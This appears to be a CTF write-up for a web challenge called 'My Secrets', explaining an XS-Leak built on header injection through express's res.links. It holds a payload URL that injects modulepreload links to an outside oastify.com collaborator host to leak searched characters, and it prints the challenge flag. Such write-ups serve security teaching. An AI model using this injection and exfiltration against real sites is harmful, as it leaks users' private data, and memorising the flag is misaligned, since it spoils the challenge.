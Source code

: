 # web | My Secrets

## Information

> You can't get access to my secrets.
>
> https://mysecrets-8a88458a82b93f84.brics-ctf.ru
> https://mysecrets-8a88458a82b93f84.brics-ctf.ru/report

## Deploy

```sh
cd deploy
docker-compose -p my_secrets up --build -d
```


## Public

Provide zip file: [public/public.zip](public/public.zip).

## TLDR

XSLeak via 0day in express.

## Writeup

You can control res.links parametr by lang parametr

```
    res.links({preload: req.session.language?`/styles/${req.session.language}.css`:"/styles/russian.css"})
```

Check sources of express links:
```
res.links = function(links){
  var link = this.get('Link') || '';
  if (link) link += ', ';
  return this.set('Link', link + Object.keys(links).map(function(rel){
    return '<' + links[rel] + '>; rel="' + rel + '"';
  }).join(', '));
};
```
There is 0day vulnerability, you can pass '>' into links and preload your own file

If you check search route than you notice:
```
        res._headers={'Timing-Allow-Origin':'https://google.com'}
```
This will reset all other headers, including the link

Now just bruteforce symbols by open windows like
```
http://localhost:3000/posts/search?searchTerm={i&lang=>; rel="modulepreload",<https://guel4szie3107m73p61w4on1asgj49sy.oastify.com?e=bric>; rel="modulepreload",</a"
```

[Exploit](solve/exploit.html)

## Domain
`mysecrets-8a88458a82b93f84.brics-ctf.ru`

## Flag

`brics+{1_h0p3_y0u_f0und_my_task_1nter3st1ng}`

## Cloudflare
Yes
